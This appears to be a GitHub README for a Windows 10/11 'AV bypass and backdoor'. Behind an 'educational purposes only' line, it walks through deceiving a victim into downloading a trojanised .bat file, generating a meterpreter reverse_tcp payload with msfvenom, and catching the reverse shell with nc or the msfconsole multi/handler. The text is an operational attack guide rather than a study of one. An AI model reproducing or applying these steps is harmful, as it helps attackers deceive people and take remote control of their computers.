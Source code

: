 # Windows 11/10 Bypass AV & Backdoor

##### For educational purposes only!
##### Social Engineering  is required!
##### Requires victim to have Admin Privs

## Steps to Compromise:

1. Make it convincing by turning it into a trojan horse. **bold text** 
2. Get victim to download .bat file to their machine (i.e through ngrok server, google drive, discord, or other means.) **bold text**
3. Generate the payload: **bold text** <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

4. Setup your listener with nc or msfconsole: **bold text** <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
